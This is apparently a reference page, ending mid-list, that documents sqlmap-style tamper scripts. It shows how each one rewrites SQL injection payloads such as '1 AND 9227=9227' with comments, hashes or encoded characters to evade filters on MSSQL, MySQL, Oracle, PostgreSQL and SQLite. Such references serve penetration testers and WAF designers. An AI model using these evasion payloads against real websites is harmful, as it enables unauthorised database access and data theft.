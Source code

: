# sp_password.py

**Function: Space ==> sp_password**

**Platform: Mssql**

> _example_

1 AND 9227=9227 — ==> 1 AND 9227=9227 — sp_password

# space2comment.py

**Function: Space ==> /\*\*/**

**Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0**

> _example_

SELECT id FROM users ==> SELECT/\*\*/id/\*\*/FROM/\*\*/users

# space2dash.py

**Function: Space==> -nVNaVoPYeva% 0A**

**Platform:MSSQL、SQLite**

> _example_

1 AND 9227=9227 ==> 1 — nVNaVoPYeva%0AAND — ngNvzqu%0A9227=9227

# space2hash.py

**Function: Space ==> %23nVNaVoPYeva%0A**

**Platform: MySQL 4.0, 5.0**

> _example_

1 AND 9227=9227 ==> 1%23nVNaVoPYeva%0AAND%23ngNvzqu%0A9227=9227

# space2morehash.py

**Function: Space ==> %23ngNvzqu%0A**

**Platform: MySQL 5.1.41**

> _example_

1 AND 9227=9227 ==> 1%23ngNvzqu%0AAND%23nVNaVoPYeva%0A%23lujYFWfv%0A9227=9227

# space2mssqlblank.py

**Function: Space ==> %0E**
